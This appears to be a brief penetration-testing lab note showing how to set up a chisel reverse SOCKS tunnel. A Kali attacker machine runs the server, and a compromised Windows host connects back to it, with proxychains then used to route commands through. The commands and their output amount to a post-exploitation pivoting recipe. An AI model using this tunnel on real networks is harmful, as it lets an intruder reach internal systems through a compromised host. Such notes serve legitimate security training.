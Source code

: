## On KALI
```
./chisel server -p 8000 --reverse
2025/07/29 22:23:52 server: Reverse tunnelling enabled
2025/07/29 22:23:52 server: Fingerprint rug5M0FUKx9SxDYDEV3Vzq6cpEqbjiBm/lxOISEh6P4=
2025/07/29 22:23:52 server: Listening on http://0.0.0.0:8000
```
## On TARGET
```
C:\Users\Christopher.Lewis\Documents> .\chisel.exe client 192.168.45.162:8000 R:socks
...
2025/07/29 19:24:24 client: Connected (Latency 10.7826ms)
```
Note:   
- Edit `/etc/proxychains4.conf`  
- Attach `proxychains` in commands  
